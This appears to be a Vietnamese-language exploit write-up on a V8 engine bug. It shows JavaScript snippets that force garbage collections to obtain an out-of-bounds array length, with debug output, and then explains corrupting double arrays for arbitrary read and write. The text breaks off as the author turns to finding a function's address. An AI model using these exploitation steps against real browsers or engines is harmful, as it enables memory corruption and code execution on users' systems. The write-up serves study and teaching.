 ## Exploit

### Tạo ra được OOB
* `Array.length` sẽ lấy giá trị rác trên v8 heap nhưng nếu cứ gọi hàm `construct` bình thường thì mình thấy giá trị nó luôn là `0`. Tác trả ở đây đã trigger garbage collection `2` lần trước rồi mới thực hiện cấp phát object

```javascript=
new ArrayBuffer(gcSize);
new ArrayBuffer(gcSize);
```
* Tuy nhiên khi mình làm vậy thì lại không có tác dụng, loay hoay tìm cách trên mạng và mình tìm thấy 1 poc thực thi 2 loại garbage collectior đó là `scavenge` và `mark_compact`(các bạn có thể tìm hiểu về `2` cái này trên google). Mình đã làm đơn giản đi việc trigger `2` cái này so với poc đó như sau

```javascript=
function scavenge()
{
    for(let i = 0; i < 9; i++)
        new ArrayBuffer(0x200000);
}
function mark_compact()
{
    new ArrayBuffer(0x7f000000);
}
```
* Thực thi code như sau và mình đã có thể có được 1 `Array` có `length` cực lớn

```
DebugPrint: 000002B200042139: [JSArray]
 - map: 0x02b20018e299 <Map[16](PACKED_SMI_ELEMENTS)> [FastProperties]
 - prototype: 0x02b20018e4dd <JSArray[0]>
 - elements: 0x02b200000219 <FixedArray[0]> [PACKED_SMI_ELEMENTS]
 - length: 108382280
 - properties: 0x02b200000219 <FixedArray[0]>
 - All own properties (excluding elements): {
    000002B200000E0D: [String] in ReadOnlySpace: #length: 0x02b200144a3d <AccessorInfo name= 0x02b200000e0d <String[6]: #length>, data= 0x02b200000251 <undefined>> (const accessor descriptor), location: descriptor
 }
```

* Rồi các bước khai thác tiếp theo của mình khá đơn giản
* Tạo thêm `2` double array

```javascript=
let doubleArr1 = [1.5, 2.2, 3.3];
let doubleArr2 = [1.5, 2.2, 3.3];
```
* Object trên heap của v8 thường hay có địa chỉ cố định sau mỗi lần chạy. Chẳng hạn như `elements` ở trên, thường dùng để lưu trữ các số trong array có cố định offset là `0x219` và khi debug thì `2` mảng double kia cũng không đổi. Như vậy mình có thể ovr `length` của `doubleArr1` rồi dùng nó để ovr `length` và `elements` của `doubleArr2`. Như vậy là mình có thể đọc ghi thoải mái. Việc đọc ghi bằng `Array` khá hạn chế, do cơ chế `pointer tagging` trong V8, bit đầu tiên thường để đánh dấu xem đó là 1 con trỏ hay là 1 số(smi). Các bạn có thể thấy bên trên object `000002B200042139` có bit đầu tiên là 1 và địa chỉ thực của nó là `000002B200042138`. Trong khi đó thì mảng double thì sẽ thực sự dùng 8 bytes để lưu phần tử cho nên việc đọc và ghi sẽ thoải mái hơn
* Tiếp theo mình cần tìm địa chỉ của 1 hàm `foo()`

